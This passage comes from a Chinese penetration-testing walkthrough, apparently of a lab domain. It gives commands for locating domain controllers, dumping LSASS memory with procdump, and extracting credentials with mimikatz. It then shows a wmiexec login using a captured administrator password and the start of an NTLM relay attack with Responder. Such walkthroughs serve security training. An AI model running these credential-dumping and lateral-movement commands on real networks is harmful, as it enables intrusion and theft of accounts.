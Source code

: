   
5. **查找域控与获取凭证**  
：获取主机权限后，可使用以下命令查找域控：  
  
  
- 查看域控制器机器名：nltest /DCLIST:124-hack  
- 查看域控制器的主机名：nslookup -type=SRV _ldap._tcp  
- 查看当前时间：net time /domain  
- 查看域控制器组：net group "Domain Controllers" /domian  
- 查看域控制器机器名：netdom query pdc  
获取凭证的方式有多种，可上传 mimikatz 工具或使用微软自带的 procdump 工具，具体操作如下：  
  
  
- **方式一**  
：使用 procdump 下载地址https://learn.microsoft.com/en-us/sysinternals/downloads/procdump ，执行 Procdump.exe -accepteula -ma lsass.exe lsass.dmp 将 lsass 进程内存转储为文件，将 lsass.dmp 文件复制到 mimikatz 所在目录，执行 mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" "exit" 获取凭证 。  
  
- **方式二**  
：通过 smb 共享或 3389 复制 mimikatz 到目标系统，使用命令 smbclient //192.168.93.20/C$ -U administrator 共享文件，或通过查看和开启 3389 远程桌面进行文件复制。在目标系统以管理员权限运行 mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords" "exit" > log.log 获取凭证 。  
  
成功抓到域控制器的密码 zxcASDqw123!! 后，使用 wmiexec 连接域控，命令为 proxychains4 python3 wmiexec.py -debug 'administrator:zxcASDqw123!!@192.168.93.10' 。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAlt4wnPyIAv4MyhRgnhEY3YSDmtJTvbwCtibEylmFFMS3v922ibPVtoM7iaUIj4YGSRWibYI25rIpIwHg/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAlt4wnPyIAv4MyhRgnhEY3YhiaQUiae8NsOqTrBrlUrUC2ibfPMlFeYuLnKfVzx5MnCORKGVPOb1ibnHg/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAlt4wnPyIAv4MyhRgnhEY3YicV7XT4gKIWNQuRIgtialARDHWFufTadCbBxqqeMuGjdrsH8QUv7ZBNg/640?wx_fmt=png&from=appmsg "")  
  
### 解法 2：mssql xp_dirtree NTLM Relay 攻击  
  
  
通过前期收集的数据库密码进行横向密码喷射，发现 192.168.93.20 主机的 mssql 可使用 testuser/cvcvgjASD!@登录，但因权限问题无法执行 xp_cmdshell。  
  
  
使用工具https://github.com/lgandx/Responder/进行 NTLM Relay 攻击，根据 Python 版本选择对应版本（python 2.6.x 使用 2.3.3.0 版本，需修改 settings.py；python 2.7.x 使用 2.3.4.0 版本）。修改原因是 subprocess.check_output () 函数在 Python 2.6.x 版本中不可用，该函数于 Python 2.7 版本引入。修改代码如下：  
  

```
process = subprocess.Popen([&#34;ifconfig&#34;, &#34;-a&#34;], stdout=subprocess.PIPE)
NetworkCard, _ = process.communicate()
process2 = subprocess.Popen([&#34;cat&#34;, &#34;/etc/resolv.conf&#34;], stdout=subprocess.PIPE)
DNS,_ = process2.communicate()
process3 = subprocess.Popen([&#34;netstat&#34;, &#34;-rn&#34;], stdout=subprocess.PIPE)
RoutingInfo,_ = process3.communicate()
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAlt4wnPyIAv4MyhRgnhEY3Y9uOl8m50eAtBQ8DGmRXUCUSibae5pshsnEssnaeUabAwuleKHNUNlsA/640?wx_fmt=png&from=appmsg "")  
  
  